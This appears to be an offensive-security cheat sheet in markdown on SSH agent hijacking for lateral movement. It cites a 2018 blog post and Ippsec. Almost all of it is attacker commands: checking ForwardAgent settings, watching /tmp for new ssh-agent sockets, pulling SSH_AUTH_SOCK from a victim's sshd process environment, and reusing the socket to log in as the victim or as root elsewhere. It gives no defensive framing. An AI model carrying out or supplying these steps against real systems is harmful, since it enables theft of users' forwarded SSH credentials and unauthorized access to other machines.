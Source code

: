#### SSH Hijack: Abusing SSH Agents to intercept the "SSO Like Token"  ####

**NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/**

##### Check logins #####

```w```

```cd /var/logs```

```grep -R -i root . -a```

```cd /etc/ssh```

```nano ssh_config```

**Is 'ForwardAgent == yes'?**

```cd /tmp```

*NOTE: Remove existing ssh-* files from grepping to remove active sessions*

```watch -n 1 "ls | grep -v 'ssh-$?\|ssh-$?'"```

*NOTE:  Wait for new event to appear*

```cd ssh-new-event```

```ls```

```SSH_AUTH_SOCK=agent-$? ssh root@target -p 2222```

*NOTE: Try without port two. This example is copied from Ippsec.*

#### SSH Hijack 2 ####

*NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/*

##### Attacker finds the SSHd process of the victim #####

```ps uax|grep sshd```
 
##### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables #####

```grep SSH_AUTH_SOCK /proc/<pid>/environ```
 
##### Attacker hijack's victim's ssh-agent socket #####

```SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l```
 
##### Attacker can login to remote systems as the victim #####

```ssh remote_system -l victim```
